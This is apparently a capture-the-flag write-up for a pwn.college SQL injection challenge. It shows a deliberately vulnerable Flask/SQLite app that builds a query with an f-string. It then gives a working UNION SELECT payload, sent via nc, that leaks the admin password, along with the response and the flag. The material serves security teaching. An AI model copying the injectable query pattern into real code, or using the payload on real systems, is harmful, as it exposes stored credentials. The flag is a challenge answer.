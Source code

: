 # SQLi 3 — Writeup

## 🧠 Challenge Overview

In this SQL injection challenge, you're given a Flask-based Python web app using an SQLite database. The goal is to extract the flag stored in the password field of the `admin` user by exploiting a SQL injection vulnerability.

---

## 🧾 Source Code Analysis

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)

import sqlite3
import tempfile

class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()

db.execute(f"""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
db.execute(f"""INSERT INTO users SELECT "guest" as username, "password" as password""")

@app.route("/", methods=["GET"])
def challenge():
    query = flask.request.args.get("query", "%")

    try:
        sql = f'SELECT username FROM users WHERE username LIKE "{query}"'
        print(f"DEBUG: {query=}")
        results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
    except sqlite3.Error as e:
        results = f"SQL error: {e}"

    return f"""
        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='{query}'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>{ sql }</pre><br>
        <b>Results:</b><pre>{results}</pre>
        </body></html>
        """

app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```
---

## Vulnerability
The query string is directly inserted into a SQL query without sanitization:
```bash
sql = f'SELECT username FROM users WHERE username LIKE "{query}"'
```
This is a classic SQL injection vector.

---

## Exploitation
You can use a UNION SELECT to leak the password (which is actually the flag) from the users table:
```bash
hacker@web-security~sqli-3:~$ printf 'GET /?query=admin"+union+select+password+from+users+-- HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n' | nc challenge.localhost 80
```

### Response
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.8.10
Date: Sun, 20 Jul 2025 09:33:50 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 478
Connection: close

<html><body>Welcome to the user query service!
<form>Query:<input type=text name=query value='admin" union select password from users --'><input type=submit value=Submit></form>
<hr>
<b>Query:</b> <pre>SELECT username FROM users WHERE username LIKE "admin" union select password from users --"</pre><br>
<b>Results:</b><pre>admin
password
pwn.college{MB8yC9OqFLMe2Am4mFwR58I5_vs.QXxkzMzwSM0IzMyEzW}
</pre>
</body></html>
```

--- 

## Flag

```
pwn.college{MB8yC9OqFLMe2Am4mFwR58I5_vs.QXxkzMzwSM0IzMyEzW}
```

---

